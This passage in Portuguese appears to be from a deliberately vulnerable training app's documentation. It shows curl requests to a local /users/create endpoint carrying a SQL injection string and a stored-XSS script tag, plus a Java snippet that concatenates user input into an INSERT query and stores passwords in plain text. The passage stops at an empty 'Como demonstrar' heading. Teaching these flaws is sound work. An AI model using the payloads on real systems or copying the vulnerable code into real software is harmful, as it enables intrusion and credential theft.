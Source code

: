 #### 🎯 Como explorar:

**1. Criar usuário com dados inválidos:**
```bash
curl -X POST http://localhost:8080/users/create \
  -H "Content-Type: application/json" \
  -d '{
    "username": "",
    "password": "123",
    "email": "email_invalido"
  }'
```

**2. SQL Injection via criação de usuário:**
```bash
curl -X POST http://localhost:8080/users/create \
  -H "Content-Type: application/json" \
  -d '{
    "username": "admin'\'' OR '\''1'\''='\''1",
    "password": "hack",
    "email": "hack@evil.com"
  }'
```

**3. Injetar scripts maliciosos:**
```bash
curl -X POST http://localhost:8080/users/create \
  -H "Content-Type: application/json" \
  -d '{
    "username": "<script>alert(1)</script>",
    "password": "test",
    "email": "xss@test.com"
  }'
```

**Impacto:**
- Dados inconsistentes no banco
- SQL Injection adicional
- Stored XSS (XSS armazenado)

---

### 8. 🔓 Senha em Texto Plano

**Localização:** `UserController.java` - método `createUser()`

**Código vulnerável:**
```java
// ❌ Senha armazenada SEM hash/criptografia
String query = "INSERT INTO users (username, password, email) VALUES ('" + 
              username + "', '" + password + "', '" + email + "')";
```

#### 🎯 Como demonstrar:
